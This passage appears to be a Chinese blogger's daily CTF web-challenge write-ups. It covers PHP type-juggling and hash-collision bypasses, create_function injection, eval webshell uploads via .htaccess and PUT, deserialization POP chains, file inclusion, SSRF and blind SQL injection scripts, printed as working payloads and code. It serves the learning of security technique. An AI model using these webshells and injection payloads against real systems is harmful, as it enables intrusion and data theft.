这题漏洞利用点就在 os.path.join 这个函数：
os.path.join(path, *paths) 函数用于将多个文件路径连接成一个组合的路径。第一个参数通常包含了基础路径，而之后的每个参数都被当做组件拼接到基础路径后。
然而，这个函数有一个少有人知的特性。如果拼接的某个路径以 / 开头，那么包括基础路径在内的所有前缀路径都将被删除，该路径将被视为绝对路径。所以如果我们上传的文件名为 /flag，就真的访问到系统根目录下的文件 flag。
所以说随便上传个文件，用 bp 中途截包后，将文件名改为 /flag，重定向后就可以获取到 flag。
# [NISACTF 2022]level-up
# 正则绕过，PHP，creation_function,rce,WAF 绕过，md5 碰撞.
打开题目页面后直接检查网页源代码：
nothing here | |
<!-- here is level 1 --> | |
<!-- disallow: --> |
看到这种提示直接访问 robots.txt 文件。
得到：
User-agent: * | |
Disallow: | |
Disallow: level_2_1s_h3re.php |
访问 /level_2_1s_h3re.php
进入第二阶段：
<?php | |
//here is level 2 | |
error_reporting(0); | |
include "str.php"; | |
if (isset($_POST['array1']) && isset($_POST['array2'])){ | |
$a1 = (string)$_POST['array1']; | |
$a2 = (string)$_POST['array2']; | |
if ($a1 == $a2){ | |
die("????"); | |
} | |
if (md5($a1) === md5($a2)){ | |
echo $level3; | |
} | |
else{ | |
die("level 2 failed ..."); | |
} | |
} | |
else{ | |
show_source(__FILE__); | |
} | |
?> |
这题由于
$a1 = (string)$_POST['array1']; | |
$a2 = (string)$_POST['array2']; |
不能使用数组来绕过 md5 强类型比较了，去网上搜一下 md5 加密后相等的字符串就行了。
用 bp 截包后发送 exp
array1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&array2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2 |
得到回显：
Level___3.php
访问：
<?php | |
//here is level 3 | |
error_reporting(0); | |
include "str.php"; | |
if (isset($_POST['array1']) && isset($_POST['array2'])){ | |
$a1 = (string)$_POST['array1']; | |
$a2 = (string)$_POST['array2']; | |
if ($a1 == $a2){ | |
die("????"); | |
} | |
if (sha1($a1) === sha1($a2)){ | |
echo $level4; | |
} | |
else{ | |
die("level 3 failed ..."); | |
} | |
} | |
else{ | |
show_source(__FILE__); | |
} | |
?> |
和刚刚同理，只不过把 md5 换成了 sha：
array1=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1 |
得到回显 level_level_4.php
访问：
<?php | |
//here is last level | |
error_reporting(0); | |
include "str.php"; | |
show_source(__FILE__); | |
$str = parse_url($_SERVER['REQUEST_URI']); | |
if($str['query'] == ""){ | |
echo "give me a parameter"; | |
} | |
if(preg_match('/ |_|20|5f|2e|\./',$str['query'])){ | |
die("blacklist here"); | |
} | |
if($_GET['NI_SA_'] === "txw4ever"){ | |
die($level5); | |
} | |
else{ | |
die("level 4 failed ..."); | |
} | |
?> | |
give me a parameterlevel 4 failed ... |
用 + 绕过正则匹配，原理见 https://p1kap1.github.io/CTF/web/SICTF2023-Round2/。
/level_level_4.php?NI+SA+=txw4ever |
得到回显：
55_5_55.php
访问：
<?php | |
//sorry , here is true last level | |
//^_^ | |
error_reporting(0); | |
include "str.php"; | |
$a = $_GET['a']; | |
$b = $_GET['b']; | |
if(preg_match('/^[a-z0-9_]*$/isD',$a)){ | |
show_source(__FILE__); | |
} | |
else{ | |
$a('',$b); | |
} |
这种 b); 句式猜到是使用 creation_function 函数绕过。
具体可以参考这篇文章：
creation_function () 代码注入
上 payload:
/55_5_55.php?a=\create_function&b=}system("ls /");/* | |
/55_5_55.php?a=\create_function&b=}system("cat /flag");/* |
这里 create_function 前面的 \ 是为了绕过正则匹配，而它之所以不会影响函数的功能则是因为它代表全局空间，关于全局空间可以参考官方解释：
全局空间
# [NSSCTF 2022 Spring Recruit]babyphp
# 数组绕过，md5 弱比较，PHP，正则绕过
进入题目：
<?php | |
highlight_file(__FILE__); | |
include_once('flag.php'); | |
if(isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a'])){ | |
if(isset($_POST['b1'])&&$_POST['b2']){ | |
if($_POST['b1']!=$_POST['b2']&&md5($_POST['b1'])===md5($_POST['b2'])){ | |
if($_POST['c1']!=$_POST['c2']&&is_string($_POST['c1'])&&is_string($_POST['c2'])&&md5($_POST['c1'])==md5($_POST['c2'])){ | |
echo $flag; | |
}else{ | |
echo "yee"; | |
} | |
}else{ | |
echo "nop"; | |
} | |
}else{ | |
echo "go on"; | |
} | |
}else{ | |
echo "let's get some php"; | |
} | |
?> let's get some php |
上个题目会了的话，做这道题不是简简单单？
a[]=0&b1[]=1&b2[]=2&c1=QNKCDZO&c2=s878926199a |
# [GDOUCTF 2023]EZ WEB
# Flask，源码泄露，Python,Http 协议。
进入题目是些无用的信息，打开源代码发现
<!-- /src --> |
访问 /src
import flask | |
app = flask.Flask(__name__) | |
@app.route('/', methods=['GET']) | |
def index(): | |
return flask.send_file('index.html') | |
@app.route('/src', methods=['GET']) | |
def source(): | |
return flask.send_file('app.py') | |
@app.route('/super-secret-route-nobody-will-guess', methods=['PUT']) | |
def flag(): | |
return open('flag').read() |
一个简单的 flask 框架，向 /super-secret-route-nobody-will-guess 发送请求包，中途用 bp 截包，将请求方式 GET 改为 PUT 即可获取 flag。
# [LitCTF 2023]Vim yyds
# vim 泄露，rce，信息收集
既然提示 vim 泄露，进入题目后，浅浅地扫一下。
[00:53:54] 200 - 12KB - /.index.php.swp |
扫到后搜索得到一个文件：index.php.swp。
这是由于非正常关闭 vim 产生的文件，这个文件是一个临时交换文件，用来备份缓冲区中的内容。
详细内容可以参考这篇文章：
Vim 不正常退出产生的 swp 文件
但是我们可以使用
vim -r index.php.swp |
给它复原。
得到：
<html>
<head>
<meta charset="UTF-8">
<style type="text/css">
body,
html {
display: flex;
align-items: center;
justify-content: center;
}
div.vim {
display: flex;
align-content: center;
vertical-align: middle;
justify-content: center;
}
img {
border: none;
width: 8rem;
height: auto;
}
h1.vim_yyds {
color: #50f728;
display: flex;
align-items: flex-start;
justify-content: center;
margin-top: 50;
margin-left: 5px;
}
h3.vim_said {
color: #39c2ff;
display: flex;
justify-content: center;
align-items: center;
}
br,
p {
font-size: 20;
}
</style>
</head>
<body>
<main>
<div class="vim">
<img src="https://www.bing.com/th?id=OSAAS.7B95FA2D97CE022F5E7949F60E350A25&pid=TechQna"></img>
<h1 class="vim_yyds">
Vim yyds
</h1>
</div>
<h3 class="vim_said">
队里师傅说Vim是世界上最好的编辑器，不接受反驳
</h3>
<div class="can_can_vim">
<?php
error_reporting(0);
$password = "Give_Me_Your_Flag";
echo "<p>can can need Vim </p>";
if ($_POST['password'] === base64_encode($password)) {
echo "<p>Oh You got my password!</p>";
eval(system($_POST['cmd']));
}
?>
</div>
</main>
</body>
将 $password base64 编码后 post 传入后，就能用 cmd 来进行命令执行了。
password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=ls / | |
password=R2l2ZV9NZV9Zb3VyX0ZsYWc=&cmd=cat /flag |
# 2023/9/17
# [NISACTF 2022]babyserialize
# 反序列化，PHP，POP 链，代码审计。
php 反序列化题，构造好链子即可：
<?php | |
include "waf.php"; | |
class NISA{ | |
public $fun="show_me_flag"; | |
public $txw4ever; | |
public function __wakeup() | |
{ | |
if($this->fun=="show_me_flag"){ | |
hint(); | |
} | |
} | |
function __call($from,$val){ | |
$this->fun=$val[0]; | |
} | |
public function __toString() | |
{ | |
echo $this->fun; | |
return " "; | |
} | |
public function __invoke() | |
{ | |
checkcheck($this->txw4ever); | |
@eval($this->txw4ever); | |
} | |
} | |
class TianXiWei{ | |
public $ext; | |
public $x; | |
public function __wakeup() | |
{ | |
$this->ext->nisa($this->x); | |
} | |
} | |
class Ilovetxw{ | |
public $huang; | |
public $su; | |
public function __call($fun1,$arg){ | |
$this->huang->fun=$arg[0]; | |
} | |
public function __toString(){ | |
$bb = $this->su; | |
return $bb(); | |
} | |
} | |
class four{ | |
public $a="TXW4EVER"; | |
private $fun='abc'; | |
public function __set($name, $value) | |
{ | |
$this->$name=$value; | |
if ($this->fun = "sixsixsix"){ | |
strtolower($this->a); | |
} | |
} | |
} | |
if(isset($_GET['ser'])){ | |
@unserialize($_GET['ser']); | |
}else{ | |
highlight_file(__FILE__); | |
} | |
//func checkcheck($data){ | |
// if(preg_match(......)){ | |
// die(something wrong); | |
// } | |
//} | |
//function hint(){ | |
// echo "......."; | |
// die(); | |
//} | |
?> |
链子：
<?php | |
class NISA{ | |
public $fun="666"; | |
public $txw4ever='System("cat /fl*");'; | |
function __wakeup() | |
{ | |
if($this->fun=="show_me_flag"){ | |
echo "hahaha\n"; | |
} | |
} | |
} | |
class TianXiWei{ | |
public $ext; | |
public $x; | |
function __wakeup() | |
{ | |
echo "123456\n"; | |
} | |
} | |
class Ilovetxw{ | |
public $huang; | |
public $su; | |
function __wakeup() | |
{ | |
echo "1234567\n"; | |
} | |
} | |
class four{ | |
public $a="TXW4EVER"; | |
private $fun='abc'; | |
} | |
$a = new TianXiWei(); | |
$a->ext=new Ilovetxw(); | |
$a->ext->huang=new four(); | |
$a->ext->huang->a=new Ilovetxw(); | |
$a->ext->huang->a->su=new NISA(); | |
echo serialize($a); |
# [NISACTF 2022]midlevel
# SSTI,Smarty
smarty 模板注入，和 [CISCN 2019 华东南] Web11 差不多。
# [HNCTF 2022 Week1]2048
# JS 分析，Web，前端。
js 分析题，题目要求分数达到 20000，检查网页源代码，在 2048.js 中找到
if (this.score > 20000) | |
{ | |
//var md5util= require ("md5.js"); // 写文件路径即可 | |
alert(String.fromCharCode(24685,21916,33,102,108,97,103,123,53,51,49,54,48,99,56,56,56,101,50,53,99,51,102,56,50,56,98,50,51,101,51,49,54,97,55,97,101,48,56,51,125)); | |
} |
放在控制台上执行即可。
# [LitCTF 2023]Http pro max plus
# HTTP 协议，请求头，信息收集。
进去显示只允许本地访问
请求头写 x-forwarded-for: 127.0.0.1
被嘲讽
换一种 client-ip: 127.0.0.1
执行显示 You are not from pornhub.com !
请求头写 referer: pornhub.com
执行显示 不开代理你想上 p 站？ 代理服务器地址是 Clash.win
请求头写 via: Clash.win
执行显示 用 Chrome 浏览器啊！
请求头写 user-agent: Chrome
执行显示 借一步说话 —>> /wtfwtfwtfwtf.php
进入 wtfwtfwtfwtf.php
F12 看到 sejishikong.php
进入 sejishikong.php 获得 flag.
# [GDOUCTF 2023] 泄露的伪装
# PHP 伪协议，源码泄露，文件包含。
代开后没找到啥有用的信息，用 dirsearch 扫一下发现，发现 www.rar，下载后得到 /orzorz.php，访问：
<?php | |
error_reporting(0); | |
if(isset($_GET['cxk'])){ | |
$cxk=$_GET['cxk']; | |
if(file_get_contents($cxk)=="ctrl"){ | |
echo $flag; | |
}else{ | |
echo "洗洗睡吧"; | |
} | |
}else{ | |
echo "nononoononoonono"; | |
} | |
?> |
payload:
?cxk=data://plain/text,ctrl |
# 2023/9/18
# [NISACTF 2022]bingdundun~
# 文件上传，PHP 为协议，Phar 协议。
打开题目后，提示只能上传图片和压缩包，尝试 mine 绕过，失败。
换个思路，注意到题目说也能够上传压缩包，想到了 phar 协议和 zip 协议。
写个木马文件 1.php，再把它压缩成 1.zip
上传。
提示
/var/www/html\/04b38fad0d1026999f9e3c6eb5ea709f.zip |
把路径记下来，回到刚才的上传界面
注意到：
/?bingdundun=upload
联想刚刚上传后显示的 upload.php，猜想应该会自动在文件名后添加.php
所以：
/?bingdundun=phar://04b38fad0d1026999f9e3c6eb5ea709f.zip/1 |
蚁剑连接后即可获得 flag。
# [GKCTF 2020] cve 版签到
# %00 截断，PHP 伪协议，HTTP 协议，SSRF，cve-2020-7066
cve-2020-7066 漏洞原理：
get_headers () 会截断 URL 中空字符后的内容
<?php
// user input
$_GET['url'] = "http://localhost%00.example.com";
$host = parse_url($_GET['url'], PHP_URL_HOST);
if (substr($host, -12) !== '.example.com') {
die();
}
$headers = get_headers($_GET['url']);
var_dump($headers);
get_headers () 函数截断 %00 后的字符串，导致读取到的 url 为
http://localhost
本题进入后提示：
You just view *.ctfhub.com
点进去它给的网站，F12 打开开发者工具，在网络中的响应包中看到
Hint:Flag in localhost
传入：
/?url=http://127.0.0.1%00www.ctfhub.com |
看到：
[4] => Tips: Host must be end with '123' |
改一下：
/?url=http://127.0.0.123%00www.ctfhub.com |
得到 flag。
# [GXYCTF 2019]BabyUpload
# .htaccess, 文件上传，MIME 绕过，文件内容绕过。
拿到题目尝试上传写好的一句话木马文件 1.php：
GIF89a | |
<?php eval($_POST['cmd']);?> |
回显后缀名不能有 ph！
截个包看看能不能大写绕过，失败。
改为 jpg 试试。
提示上传的文件类型也太露骨了吧！
mine 绕过一下：
Content-Type: image/jpeg
发送后再次报错：
诶，别蒙我啊，这标志明显还是 php 啊
发现是文件内容不能有 <? 和？>
换一个一句话木马：
GIF89a? | |
<script language="php">@eval($_POST['cmd']);show_source("/flag");</script> |
成功！
/var/www/html/upload/19e088857b6c91278532a300da9ddb78/1.jpg succesfully uploaded! |
接下来就上传.htaccess 就完事了.
AddType application/x-httpd-php .php .jpg .png .gif
SetHandler application/x-httpd-php
mine 绕过即可成功上传：
/var/www/html/upload/19e088857b6c91278532a300da9ddb78/.htaccess succesfully uploaded! |
访问 /upload/19e088857b6c91278532a300da9ddb78/1.jpg 即可。
# [HNCTF 2022 Week1]Interesting_include
# php 伪协议
简单题，一句伪协议即可结束：
/?filter=php://filter/read=convert.base64-encode/resource=flag.php
# [NISACTF 2022]popchains
# 反序列化，PHP
题目：
Happy New Year~ MAKE A WISH | |
<?php | |
echo 'Happy New Year~ MAKE A WISH<br>'; | |
if(isset($_GET['wish'])){ | |
@unserialize($_GET['wish']); | |
} | |
else{ | |
$a=new Road_is_Long; | |
highlight_file(__FILE__); | |
} | |
/***************************pop your 2022*****************************/ | |
class Road_is_Long{ | |
public $page; | |
public $string; | |
public function __construct($file='index.php'){ | |
$this->page = $file; | |
} | |
public function __toString(){ | |
return $this->string->page; | |
} | |
public function __wakeup(){ | |
if(preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->page)) { | |
echo "You can Not Enter 2022"; | |
$this->page = "index.php"; | |
} | |
} | |
} | |
class Try_Work_Hard{ | |
protected $var; | |
public function append($value){ | |
include($value); | |
} | |
public function __invoke(){ | |
$this->append($this->var); | |
} | |
} | |
class Make_a_Change{ | |
public $effort; | |
public function __construct(){ | |
$this->effort = array(); | |
} | |
public function __get($key){ | |
$function = $this->effort; | |
return $function(); | |
} | |
} | |
/**********************Try to See flag.php*****************************/ |
废话不多说上链子：
<?php | |
class Road_is_Long{ | |
public $page; | |
public $string; | |
} | |
class Try_Work_Hard{ | |
protected $var="php://filter/convert.base64-encode/resource=/flag"; | |
} | |
class Make_a_Change | |
{ | |
public $effort; | |
} | |
$a = new Road_is_Long(); | |
$a -> page = new Road_is_Long(); | |
$a ->page->string=new Make_a_Change(); | |
$a ->page->string->effort=new Try_Work_Hard(); | |
echo urlencode(serialize($a)); |
# 2023/9/19
# [CISCN 2019 华北 Day2] Web1
# SQL 注入，布尔盲注，空格绕过。
进入题目，提示：
All You Want Is In Table 'flag' and the column is 'flag'
Now, just give the id of passage
输入 1 得到回显
Hello, glzjin wants a girlfriend.
输入 2 得到回显
Do you want to be my girlfriend?
输入 if (1=1,1,2) 得到回显：
Hello, glzjin wants a girlfriend.
上盲注：
import requests | |
import string | |
session = requests.session() | |
flag = '' | |
burp0_url = "http://node4.anna.nssctf.cn:28215/" | |
for i in range(50): | |
for j in string.printable: | |
sql = 'if(ascii(substr((select(flag)from(flag)),{},1))={},1,2)'.format(i, ord(j)) | |
burp0_data = {"id": sql} | |
r = session.post(url=burp0_url,data=burp0_data) | |
if "Hello" in r.text: | |
flag += j | |
print(flag) | |
break | |
else: | |
continue |
也可以使用异或的方法，用它可以起到代替 or 的作用。
0^(ascii(substr((select(flag)from(flag)),1,1))>1)
但还有一些是没有用异或，用的是 if，可 if 有局限性，在 id 为数字型时，可以直接 select * from users where id=if (1=1,1,0)，但如果 id 单引号字符型或双引号字符型，那就必须在 if 前加 or 或 and。
可以用二分法增加速度：
import requests | |
session = requests.session() | |
flag = '' | |
burp0_url = "http://node4.anna.nssctf.cn:28215/" | |
for i in range(1, 100): | |
l = 30 | |
r = 130 | |
mid = (r + l) >> 1 | |
while l < r: | |
sql = '0^(ascii(substr((select(flag)from(flag)),{},1))>{})'.format(i, mid) | |
burp0_data = {"id": sql} | |
res = session.post(url=burp0_url, data=burp0_data) | |
if "Hello" in res.text: | |
l = mid + 1 | |
else: | |
r = mid | |
mid = (l + r) >> 1 | |
if chr(mid) == " ": | |
break | |
flag += chr(mid) | |
print(flag) | |
print("flag:" + flag) |
# [HCTF 2018]Warmup
# 文件包含，目录穿越，PHP。
进入题目是个滑稽图片，别管他，直接检查源代码：
<!--source.php--> |
行，直接访问。
<?php | |
highlight_file(__FILE__); | |
class emmm | |
{ | |
public static function checkFile(&$page) | |
{ | |
$whitelist = ["source"=>"source.php","hint"=>"hint.php"]; | |
if (! isset($page) || !is_string($page)) { | |
echo "you can't see it"; | |
return false; | |
} | |
if (in_array($page, $whitelist)) { | |
return true; | |
} | |
$_page = mb_substr( | |
$page, | |
0, | |
mb_strpos($page . '?', '?') | |
); | |
if (in_array($_page, $whitelist)) { | |
return true; | |
} | |
$_page = urldecode($page); | |
$_page = mb_substr( | |
$_page, | |
0, | |
mb_strpos($_page . '?', '?') | |
); | |
if (in_array($_page, $whitelist)) { | |
return true; | |
} | |
echo "you can't see it"; | |
return false; | |
} | |
} | |
if (! empty($_REQUEST['file']) | |
&& is_string($_REQUEST['file']) | |
&& emmm::checkFile($_REQUEST['file']) | |
) { | |
include $_REQUEST['file']; | |
exit; | |
} else { | |
echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />"; | |
} | |
?> |
审计一下，大致明白了必须想办法绕过 checkFile 函数，而绕过点就在这句：
$_page = mb_substr( | |
$page, | |
0, | |
mb_strpos($page . '?', '?') | |
); | |
if (in_array($_page, $whitelist)) { | |
return true; |
mb_strpo 函数返回首次出现问号的位置，也就是说如果我们自己在 file 参数中设置 '?'，就可以让 $_page 等于白名单中存在的那两个参数，比如这样：
?file=hint.php? |
现在我们就直接来到了这里
include $_REQUEST['file']; |
目前没啥思路，因为不知道 flag 在哪，那就看下 hint.php 中有什么吧：
flag not here, and flag in ffffllllaaaagggg
不出意外，在根目录直接目录穿越：
?file=hint.php?../../../../../../ffffllllaaaagggg |
这里？之所以不会造成影响，是因为？被视为 hint.php 文件名的一部分了，并不会影响 include 操作。
说白了，就相当于多了个不存在的查询字符串
通常情况下，查询字符串不应该直接放在 include 或 require 语句中，因为它们不是用于指定文件路径的标准方式，但查询字符串（query string）部分不会直接影响文件包含操作。
# [羊城杯 2020] easycon
# RCE，css, 信息收集。
打开网页后，没发现什么有用的信息，用 dirsearch 扫一下，扫到文件 index.php。
访问，弹出一个窗口告诉我们有个 POST 方式的 cmd 参数，直接用蚁剑连接。
找了一圈没发现 flag，最有可能是 flag 的文件就是 bbbbbbb.txt 文件了。
访问是一大串编码，有点像 base64 编码。
解码，得到一个有着 JFIF 头的乱码，不出意外是个图片。
可以建立一个 html 解码：
<!DOCTYPE html> | |
<html> | |
<head> | |
<title>index.html</title> | |
<meta http-equiv="keywords" content="keyword1,keyword2,keyword3"> | |
<meta http-equiv="description" content="this is my page"> | |
<meta http-equiv="content-type" content="text/html; charset=UTF-8"> | |
</head> | |
<body> | |
<!-- | |
data 表示取得数据的协定名称，image/png 是数据类型名称，base64 是数据的编码方法， | |
逗号后面是 image/png 文件 base64 编码后的数据. | |
data:text/css;base64,base64 编码的 CSS 代码 | |
data:text/javascript,Javascript 代码 | |
data:text/javascript;base64,base64 编码的 Javascript 代码 | |
data:image/gif;base64,base64 编码的 gif 图片数据 | |
data:image/png;base64,base64 编码的 png 图片数据 | |
data:image/jpeg;base64,base64 编码的 jpeg 图片数据 | |
data:image/x-icon;base64,base64 编码的 icon 图片数据 | |
--> | |
<img src="data:image/jpeg;base64,编码位置"> | |
</body> | |
</html> |
放在那个位置上直接打开即可。
或者使用这个在线网站：
https://try8.cn/tool/image/base64
# [LitCTF 2023] 这是什么？SQL ！注一下
# SQL 注入，PHP
这道题目很显而易见，就是在 id 的周围加上了很多括号。
绕过很容易，也不存在什么过滤啥的，就是很麻烦，用 SQLMAP 可以直接做出来
手动注入可以参考这篇文章：
https://www.ctfer.vip/note/set/2169

# [UUCTF 2022 新生赛] ez_rce
# RCE,WAF 绕过
题目：
<?php | |
## 放弃把，小伙子，你真的不会 RCE, 何必在此纠结呢？？？？？？？？？？？？ | |
if(isset($_GET['code'])){ | |
$code=$_GET['code']; | |
if (!preg_match('/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i',$code)){ | |
echo '看看你输入的参数！！！不叫样子！！';echo '<br>'; | |
eval($code); | |
} | |
else{ | |
die("你想干什么？？？？？？？？？"); | |
} | |
} | |
else{ | |
echo "居然都不输入参数，可恶!!!!!!!!!"; | |
show_source(__FILE__); | |
} |
发现过滤了很多函数，但是问题不大，完全可以使用反引号来代替 system 函数。
不过得想个办法把结果显示出来，echo 被过滤，但我们还可以使用 print,var_dump.print_r 等。
/?code=print(`l\s`); |
回显：
error.log index.php
看看根目录里有啥：
/?code=print(`l\s /`); |
得到回显：
bin boot dev etc fffffffffflagafag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
直接读取文件：
/?code=print(`c\at /fffffffffflagafag`); |
得到 flag:
NSSCTF
# 2023/9/21
# [HNCTF 2022 Week1]easy_html
# HTTP 协议，JS 分析，Web，html
进去后没啥有用信息，打开开发者工具，在响应包里看到一串暗示：
Set-Cookie:
flagisin=.%2Ff14g.php
直接查看 /f14g.php
进入一个网页，上面有个输入框，提示我们用手机号登录，那直接输手机号呗，不过得注意在 hackbar 中进行操作，因为题目得输入框限制最大时隔字符，而这道题只要输入十一个字符即获取到 flag。
# [GDOUCTF 2023] 受不了一点
# PHP，变量覆盖，数组绕过，php 特性
题目：
<?php | |
error_reporting(0); | |
header("Content-type:text/html;charset=utf-8"); | |
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){ | |
$b=$_POST['ctf']; | |
$a=$_POST['gdou']; | |
if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){ | |
if(isset($_COOKIE['cookie'])){ | |
if ($_COOKIE['cookie']=='j0k3r'){ | |
if(isset($_GET['aaa']) && isset($_GET['bbb'])){ | |
$aaa=$_GET['aaa']; | |
$bbb=$_GET['bbb']; | |
if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){ | |
$give = 'cancanwordflag'; | |
$get ='hacker!'; | |
if(isset($_GET['flag']) && isset($_POST['flag'])){ | |
die($give); | |
} | |
if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){ | |
die($get); | |
} | |
foreach ($_POST as $key => $value) { | |
$$key = $value; | |
} | |
foreach ($_GET as $key => $value) { | |
$$key = $$value; | |
} | |
echo $flag; | |
}else{ | |
echo "洗洗睡吧"; | |
} | |
}else{ | |
echo "行不行啊细狗"; | |
} | |
} | |
} | |
else { | |
echo '菜菜'; | |
} | |
}else{ | |
echo "就这?"; | |
} | |
}else{ | |
echo "别来沾边"; | |
} | |
?> |
这题目看着挺唬人的，其实简单的一批，说是要变量覆盖，其实没必要，因为 echo $flag; 没有什么限制条件，只要你不改他，foreach 是不会影响它的，具体的变量覆盖可以我的一口气做完 polar 靶场里面的题目。
payload:
Get: | |
aaa=114514&bbb=114514a | |
Post: | |
gdou[]=1&ctf[]=0 | |
Cookie: | |
cookie=j0k3r |
这里 aaa 和 bbb 的绕过是因为，Get 传参时会把参数当做字符串处理，所以他两比较才不相等，又由于 php 中数组与字符串在进行弱类型比较时，会把字符串转换为数组，像 114514a 这种形式，会自动把最后的 a 给去掉，所以才会相等。
# [SWPUCTF 2022 新生赛] ez_ez_php (revenge)
# PHP 伪协议，文件包含。
题目：
<?php | |
error_reporting(0); | |
if (isset($_GET['file'])) { | |
if ( substr($_GET["file"], 0, 3) === "php" ) { | |
echo "Nice!!!"; | |
include($_GET["file"]); | |
} | |
else { | |
echo "Hacker!!"; | |
} | |
}else { | |
highlight_file(__FILE__); | |
} | |
//flag.php |
简单题，右手就行。
payload:
?file=php://filter/convert.base64-encode/resource=/flag |
# [NSSRound#1 Basic]basic_check
# HTTP 协议，DAV
题目：
<?php highlight_file(__FILE__);// Welcome to NSSCTF Round#1 Basic, have fun. |
用 curl 或者 nikto 扫描 /index.php 就知道可以使用 PUT 请求。
或者可以用火狐浏览器的开发者工具，选择网络，右键网站，编辑并重发，将 GET 修改为 OPTIONS 后，发送，响应头中有这一串：
OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,PUT,LOCK,UNLOCK
这就很简单了，因为它允许看起来就很变态的 PUT 请求。
关于 PUT 请求有个简短的介绍：
如果请求 URI（Request-URI）指定的的资源已经在源服务器上存在，那么此请求里的实体应该被当作是源服务器关于此 URI 所指定资源实体的最新修改版本。如果请求 URI（Request-URI）指定的资源不存在，并且此 URI 被用户代理定义为一个新资源，那么源服务器就应该根据请求里的实体创建一个此 URI 所标识下的资源
具体可以参考这篇文章：
详解 HTTP 四种请求：POST、GET、DELETE、PUT
所以我们可以对 index.php 进行抓包，修改请求头为 PUT，并修改为 1.php，由于 1.php 不存在，所以自动创建，内容就是下面写的一句话木马。
<?php @eval($_POST['cmd']); ?> |
发送后再去浏览器访问 1.php，用蚁剑连接即可。
# 2023/9/22
（从今天开始到月底，由于要去参加 buuctf 和 polar 以及山河的线上个人赛，每天的更新频率会降低，尽量保持一天一更吧～）
# [HDCTF 2023]SearchMaster
# Smarty,SSTI, 信息收集，模板注入
进入题目后看到提示：
模板都一样我很抱歉 OVO BUT YOU CAN POST ME A data
虽然不知道他是什么模板，但能看出要求我们传入一个名为 data 的 post 参数。
验证一下
data=1
发现在页面会显示我们传入的数据。
尝试命令注入啥的都不行，试试：
data=
发现回显出 9，这熟悉的感觉让人很难不想起那位。
data=
回显出
composer.json css demo docs index.php js lexer libs templates_c templates_c
做到这基本没什么了，直接查看 flag 即可。
关于 smart 模板注入在之前的题目可以参考。
data=
data=
# 2023/9/23
# [鹤城杯 2021] Middle magic
# 弱比较，数组绕过，正则绕过，php
题目源代码：
<?php | |
highlight_file(__FILE__); | |
include "./flag.php"; | |
include "./result.php"; | |
if(isset($_GET['aaa']) && strlen($_GET['aaa']) < 20){ | |
$aaa = preg_replace('/^(.*)level(.*)$/', '${1}<!-- filtered -->${2}', $_GET['aaa']); | |
if(preg_match('/pass_the_level_1#/', $aaa)){ | |
echo "here is level 2"; | |
if (isset($_POST['admin']) and isset($_POST['root_pwd'])) { | |
if ($_POST['admin'] == $_POST['root_pwd']) | |
echo '<p>The level 2 can not pass!</p>'; | |
// START FORM PROCESSING | |
else if (sha1($_POST['admin']) === sha1($_POST['root_pwd'])){ | |
echo "here is level 3,do you kown how to overcome it?"; | |
if (isset($_POST['level_3'])) { | |
$level_3 = json_decode($_POST['level_3']); | |
if ($level_3->result == $result) { | |
echo "success:".$flag; | |
} | |
else { | |
echo "you never beat me!"; | |
} | |
} | |
else{ | |
echo "out"; | |
} | |
